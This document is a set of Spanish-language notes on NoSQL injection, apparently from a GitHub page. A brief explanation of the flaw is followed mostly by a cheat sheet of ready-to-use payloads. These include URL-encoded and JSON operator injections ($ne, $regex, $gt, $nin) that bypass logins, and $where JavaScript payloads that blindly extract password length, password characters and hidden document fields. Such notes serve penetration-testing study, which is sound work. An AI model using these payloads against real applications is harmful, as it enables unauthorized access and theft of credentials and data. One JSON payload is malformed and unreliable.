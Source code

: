 -- - 
Las inyecciones NoSQL son una vulnerabilidad de seguridad en las aplicaciones web que utilizan bases de datos NoSQL, como MongoDB, Cassandra y CouchDB, entre otras. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación o sanitización.

La inyección NoSQL funciona de manera similar a la inyección SQL, pero se enfoca en las vulnerabilidades específicas de las bases de datos NoSQL. En una inyección NoSQL, el atacante aprovecha las consultas de la base de datos que se basan en documentos en lugar de tablas relacionales, para enviar datos maliciosos que pueden manipular la consulta de la base de datos y obtener información confidencial o realizar acciones no autorizadas.

A diferencia de las inyecciones SQL, las inyecciones NoSQL explotan la falta de validación de los datos en una consulta a la base de datos NoSQL, en lugar de explotar las debilidades de las consultas SQL en las bases de datos relacionales.
-- - 
in DATA
```json
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
# For testing
'
'+'
'%2b'
' && '1' == '2 ---> url-encoded
' && '1' == '1 ---> url-encoded
administrator' && this.password.length > 7 || 'a'=='b  ---> url-encoded
administrator' && this.password[0] == 'k' || 'a'=='b ---> url-encoded
```

in JSON:
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

```json
{
	"username":"admin",
	"password":{
	"$regex":".{29}" --> Consulto si la longitud de la contraseña es = 29
	"$regex": "^.{29}$" 

	}				   
}

{
	"username":"admin",
	"password":{
	"$regex":"^a" --> Consulto si la contraseña empieza por a
	}				   
}

{
	"username":"carlos",
	"password":{"$ne":""
},
	"$where":  "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0;}" ---> Consulto si el primer atributo del documento es _id
}

{
	"username":"carlos",
	"password":{"$ne":""
},
	"$where": "function(){ if(Object.keys(this)[3].length == 1) return 1; else 0;}" ---> Consulto la longitud
}

## Luego la idea es moverse por el indice del array de documento para ir identificando los parametros que estan ocultos

{
	"username":"carlos",
	"password":{"$ne":""
},
	"$where": "function(){ if(Object.keys(this)[4].match(/^a/)) return 1; else 0;}" ---> Consulto por que letra empieza
}


{
	"username":"carlos",
	"password":{"$ne":""},
	"$where":"function(){ if(this.changePwd.length == 1) return 1; else 0;}" ---> Consulto la longitud del campo escondido
}

{
	"username":"carlos",
	"password":{"$ne":""},
	"$where":"function(){ if(this.changePwd.match(/^a/)) return 1; else 0;}" ---> Consulto por que letra empiza el campo escondido
}


```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
-- - 

